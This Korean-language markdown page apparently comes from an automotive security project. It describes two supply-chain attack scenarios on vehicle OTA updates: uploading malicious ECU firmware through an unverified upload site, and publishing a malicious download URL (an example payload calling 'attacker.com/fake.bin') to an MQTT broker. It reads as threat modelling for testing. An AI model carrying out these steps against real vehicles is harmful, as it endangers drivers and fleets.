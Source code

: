 # 1. Supply Chain Attack

## 공격 시나리오 1: 정식 OTA 파일 업로드 웹페이지를 통해 악성 코드 업데이트 [Level 1]

### 공격 시나리오 전제 조건

- 파일을 업로드하는 웹사이트의 URL IP 주소값(혹은 도메인)을 공격자가 획득한 것으로 가정한다.
- OTA 서버에 업로드된 파일을 검증하는 무결성 검사, 서명 확인 절차가 존재하지 않는다.
- OTA 서버에서 업로드된 파일은 인증되지 않은 차량에게도 배포 가능한 구조라고 가정한다.
- 프록시 서버는 이미 공격자가 장악한 상태로 트래픽 감시랑 변조가 가능하다.
- OTA 업데이트 파일이 차량의 통신 모듈로 전송될 때의 IP 주소를 알려주는 응답을 가로챌 수 있고, 재지정이 가능하다.

### 공격 시나리오 수행 방법

#### 1단계(가정): 정상 OTA 서버에 파일 업로드
- 공격자는 차량 ECU에 악성 동작을 유발할 수 있는 .bin 확장자의 악성 펌웨어 파일을 사전 생성한다.
- OTA 서버는 업로드된 펌웨어 파일을 업데이트 대상 리스트에 자동 등록한다.
- 업데이트가 되었다는 공지를 한다.
  
#### 2단계: 차량 통신 모듈이 OTA 서버에 요청 전송
- OTA 대상 차량은 ota.com를 통해 OTA 공지 및 파일을 확인한다.
- OTA 서버는 정상처럼 보이는 응답을 반환하고, 공격자가 업로드한 악성 OTA 파일의 경로를 함께 전달한다.
- OTA 통신은 암호화나 서버 인증 없이 이루어지고 있다고 가정한다.

#### 3단계: 차량이 악성 OTA 파일 다운로드
- 차량의 통신 모듈은 OTA 서버로부터 응답받은 경로에 접근해 악성 .bin 파일을 그대로 다운로드한다.
- 이 파일은 헤더/버전/파일 구조가 정상 파일과 유사하여 차량은 이를 정상 업데이트 파일로 인식한다.

#### 4단계: ECU가 악성 OTA 파일 설치
- 차량 통신 모듈은 해당 파일을 각 ECU에 배포하고 ECU는 디지털 서명 검증이나 버전 비교 없이 그대로 설치한다.

1. 공격자는 타겟 ECU에 주입할 악성 펌웨어/소프트웨어에 해당하는 .bin 파일을 생성한다.
2. OTA 파일을 업로드하는 정식 웹사이트를 통해 .bin 파일을 업로드한다.
3. 인증이 없는 차량은 해당 악성 파일을 설치한다.

---

## 공격 시나리오 2: MQTT broker에 악성 코드 혹은 URL publishing [Level 1]

### 공격 시나리오 전제 조건

- 공격자는 인증된 차량을 해킹하여 OEM에서 사용하는 MQTT Broker 주소(IP)를 확보한 상태로 가정한다.
- MQTT 서버는 topic 권한 검증 또는 payload 필터링 기능이 없는 상태로 운영된다.

### 공격 시나리오 수행 방법

#### 1단계: 공격자가 MQTT Broker에 악성 데이터 publish
- 공격자는 악성 OTA 파일을 직접 보내는 것이 아니라 OTA 파일을 다운받을 수 있는 URL을 특정 topic에 publish한다.
    예: `{"ota_url": "http://attacker.com/fake.bin"}`
  
#### 2단계: Broker가 전체 차량에게 메시지 broadcast
- MQTT Broker는 해당 topic을 구독하고 있는 모든 차량에 해당 데이터를 broadcast한다.
- OTA 관련 topic(`ota/update/announce`)에 대한 인증이나 무결성 검증이 생략된다.
  
#### 3단계: 차량이 악성 URL의 OTA 파일을 다운로드
- 차량 통신 모듈은 수신된 메시지에 포함된 URL로 접근한다.
- 정상으로 위장된 악성 OTA 파일을 다운로드한다.
- 이때 공격자는 Flask 기반 가짜 OTA 서버를 운영중이다.

#### 4단계: 차량이 악성 OTA 파일 설치
- 차량은 받은 파일을 정상 OTA 파일로 오인하고 각 ECU에 배포한다.
- ECU는 무결성 검증 없이 설치를 진행하며 악성 명령이 실행되어 원격 제어나 시스템 오작동이 발생할 수 있다.
